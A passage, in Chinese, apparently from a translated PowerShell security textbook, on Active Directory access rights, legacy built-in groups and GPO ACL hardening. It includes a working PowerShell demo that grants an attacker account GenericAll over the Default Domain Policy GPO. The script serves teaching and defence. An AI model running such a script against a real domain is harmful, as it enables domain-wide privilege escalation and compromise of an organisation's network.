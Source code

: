 ![图 6.7 – OU 访问权限的 Power Pivot 分析](img/B16679_06_007.jpg)

图 6.7 – OU 访问权限的 Power Pivot 分析

例如，在部署 AD 时，像**账户操作员**或**打印操作员**这样的访问权限内建组会自动添加。如前一节所述，*这些内建组从哪里来？*，它们最初是为了让你的工作更轻松，但如今，它们同样让攻击者的工作变得轻松。

也配置了针对**所有人**的访问权限。这是早期遗留下来的产物，保留它是为了防止连接到旧版的 AD。你应尽早删除这些访问权限。在现代 AD 环境中，仅需**已验证用户**具有访问权限即可。

最后，如果你在环境中没有运行任何预 Windows 2000 版本的遗留系统，那么你应该删除内建的**Pre-Windows 2000 Compatible Access** 组。

## GPO ACL

GPO 是许多 AD 环境中的关键组件，因为它们用于在整个域中强制执行安全策略和配置。如果攻击者控制了一个 GPO，他们可以利用它将恶意设置传播到整个域，从而可能危及整个网络的安全。

例如，如果攻击者获取了一个有权限修改组策略访问控制的账户，他们可以使用以下演示代码将自己的账户（无论是自己创建的还是之前已经被攻破的）添加进去，从而能够更改 GPO 本身：

```
$Searcher = [adsisearcher]"(&(objectClass=groupPolicyContainer)(displayName=Default domain Policy))"
$Searcher.SearchRoot = [adsi]"LDAP://CN=Policies,CN=System,DC=PSSec,DC=local"
$Searcher.PropertiesToLoad.Add("distinguishedName") | Out-Null
$SearchResult = $Searcher.FindOne()
$DistinguishedName = $SearchResult.Properties["distinguishedName"][0]
$TargetGPO = $DistinguishedName
$AttackerIdentity=[System.Security.Principal.NTAccount]'PSSec\vvega'
$Gpo = [ADSI]"LDAP://$TargetGPO"
$Sec = $Gpo.psbase.ObjectSecurity
$Ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule ($AttackerIdentity, "GenericAll", "Allow")
$Sec.AddAccessRule($Ace)
$Gpo.psbase.CommitChanges()
```
